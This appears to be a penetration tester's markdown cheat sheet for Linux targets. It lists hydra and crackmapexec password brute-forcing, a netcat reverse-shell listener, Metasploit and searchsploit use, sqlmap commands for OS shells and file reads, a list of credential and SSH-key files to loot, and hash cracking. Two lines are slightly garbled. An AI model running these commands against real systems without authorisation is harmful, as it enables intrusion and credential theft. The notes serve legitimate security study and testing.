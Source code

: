 ```yaml
---
title: Linux pentesting notes
---
```


## Links, sources, wikis, tricks
- https://www.ired.team/ - red-team tricks
- https://book.hacktricks.xyz/ - hack tricks
- https://ss64.com/ - all Powershell and Linux cmds

## Quick tools
```bash
python3 -m http.server <port>               # Run HTTP server
echo "str" | base64                         # Encode with base64 
echo "str" | base64 -d                      # Decode with base64 
```
## Kali Linux resources
**Wordlists**
```bash
/usr/share/wordlists                        # Location of wordlists 
/usr/share/wordlists/rockyou.txt            # Most common passwords
/usr/share/seclists                         # Well grouped wordlists
```

**Binaries**
```bash
/usr/share/windows-resources                # Tools for Windows
sqlitebrowser <db-file>                     # Nice browser for SQLite DB
```

## Remote password bruteforcing
```bash
# Check all combinations (protocols: ssh, smb, mssql, ldap, winrm)
crackmepexec <protocol> <ip> -u <usernames> -p <passwords>

# FTP credentials bruteforcing
hydra -L <username-file> -P <passwords-file> ftp://<ip>
```

## Exploitation
### Reverse shells
- https://www.revshells.com/ - reverse shells generator
```bash
nc -lvnp <port>                             # Listener
```

### Exploits
**Searchsploit**
```bash
searchsploit --update                       # Update local DB
searchsploit <phrase>                       # Search in Exploit-DB
searchsploit -m <exploit-path>              # Copy exploit to cwd
usr/share/exploitdb/exploits/               # Default path of Exploit-DB
```

**Metasploit**
```bash
msfdb init                                  # Init Metasploit DB
msfconsole                                  # Run metasploit
> search <regex>                            # Search for exploit
> use <exploit-path>                        # Use exploit
> options                                   # Lists options
> set <OPTION> <VALUE>                      # Set option
> run                                       # Run exploit
> back                                      # Exit exploit view

# To get reverse shell (run listener): exploit/multi/handler
> CTRL + z                                  # Background current session
> sessions                                  # List all sessions
> sessions <num>                            # Restore session
```

### SQLMap / mysql
**Custom middleware** 
Hint: to extend SQLMap capabilities you can write simple HTTP server as middleware. It gets payloads from SQLMap and passes them further doing some magic on the fly. With middleware like that you can help SQLMap with complex behaviours and responses.
    
**Privileges**
List of MySQL DBMS privileges: https://dev.mysql.com/doc/refman/8.0/en/privileges-provided.html

**Usage**
```bash
# Some params to speed up process
sqlmap <params> --batch --threads 10 --dbms mysql
sqlmap -r <file.req>                        # Use request from file

# Try to get shell by SQLi (POST and GET)
# There is also "--sql-shell" flag to get SQL shell
sqlmap -u <domain> --data "<param>=*" --method POST --os-shell
sqlmap -u <domain?param=*> --os-shell
    
# Dump selected columns (-C) from table (-T) from DB (-D)
sqlmap <params> -D <db> -T <table> -C <c1>,<c2> --dump

# Discover
-dbs                                        # Show databases
-D <db> --tables                            # Show tables
    
sqlmap <params>:
    --file-read <path>                      # Read file
    --file-write <file> --file-dest <to>    # Upload file
    --current-user                          # Get current username
    --current-db                            # Get current DB
    --privileges                            # List user privileges
    --proxy <http://ip:port>                # Send requests via proxy
    --random-agent                          # Random user-agent

mysql -h <host> -u <user> [-p <pass>]       # Connect to SQL server
> show databases;                           # Get all databases
> use <db-name>;                            # Select database                 
> show tables;                              # Get all tables
> select user();                            # Get current user
> show grants;                              # Get current permissions
```

### AJP - Apache JServ Protocol
**Exploits**
- GhostCat (LFI)

**Enumeration**
```bash
nmap -sV --script ajp-auth,ajp-headers,ajp-methods,ajp-request -Pn -p 8009 <IP>
```

## Post-exploitation
### Interesting files to loot
```bash
# System configs
/etc/shadow                                 # Password hashes (root)
/etc/sudoers                                # List of sudoers (root)
/etc/passwd                                 # All users
/etc/group                                  # All groups
/etc/hostname                               # Hostname
/etc/issue                                  # Linux distro
/etc/*-release                              # Linux distro
/etc/crontab                                # CRON
/etc/hosts                                  # Routing
/etc/syslog.conf                            # 
/etc/resolv.conf                            # DNS
/etc/sysctl.conf                            # Kernel
/etc/aliases                                # Aliases
/var/run/utmp                               # Current user info
/var/log/wtmp                               # Login and logouts info

# Logs
/var/log/auth.log                           # Auth attempts logs
/var/log/nginx/access.log                   # Nginx HTTP logs
/var/log/syslog                             # OS events
/var/log/faillog                            # Failed login attempts

# User's information 
/home/<u>/.viminfo
/home/<u>/.bash_history                     
/home/<u>/.mysql_history
/home/<u>/.ssh/id_rsa                       # SSH private key
/home/<u>/.ssh/authorized_keys
/home/<u>/.ssh/known_hosts

# Software configs
/etc/nginx/sites-enabled/default            # Nginx website settings
/etc/nginx/nginx.conf                       # Nginx
/etc/http.conf                              # Apache
/etc/samba/smb.conf                         # SMB
/etc/mysql/my.cnf                           # MySQL
/etc/postfix/main.cf                        # Postfix SMTP
/etc/ssh/sshd_config                        # SSHd
/var/run/sshd.pid                           # SSHd PID

.ssh/authorized_keysplaye
.ssh/authorized_keys2
/etc/ssh/ssh_host_rsa_key
/home/<u>/.rhosts
/home/<u>/.shosts
/var/run/sshd.pid
/usr/lib/openssh/sftp-server

# Self process
/proc/self/comm                             # Command
/proc/self/status                           # Detailed info
```

### Privilege escalation
- https://gtfobins.github.io/ - commands to perform priv-escalaction

**Shell upgrading**
```bash
which python python2 python3
python3 -c "import pty; pty.spawn('/usr/bin/bash')"
script /dev/null -c bash
```
**Weakness discovering**
```bash
sudo -ll                                    # List user's privileges
sudo -v                                     # Check sudo rights for user
find <dir> -perm /u=s 2>/dev/null           # Find SUID files
w                                           # Show logged-in users
last                                        # Show last logged-in users
```

### Hash cracking
- https://crackstation.net/ - crack common MD5 hashes

```bash
hashid -m <hash-string>                     # Identify hash algorithm        

john --wordlist=<wordlist> <hash-file>      # Brute-force hash
zip2john <file.zip> > hash                  # Get pass hash from zip

hashcat <hash-file> <wordlist>              # Crack hash (auto-detect)
hashcat -m 0 <hash-file> <wordlist>         # Crack hash (MD5 mode)
hashcat -h | grep "Hash modes" -A400        # Get all modes
```

### Connecting
**SSH private key**
```bash
ssh <user>@<ip> -i <private-key-file>       # Auth by private key
```

**FTP as a guest**
```bash
ftp anonymous@<ip>                          # Connect to FTP (as guest)
```
 
**MongoDB CLI**
```bash
mongo <ip>:<port>                           # Connect to MongoDB
> show dbs                                  # List databases
> use <db>                                  # Switch to database
> show collections                          # List collections (tables)
> db.<collection>.find().pretty()           # List data of collection
. db.<collection>.updateOne()               # Update one record
```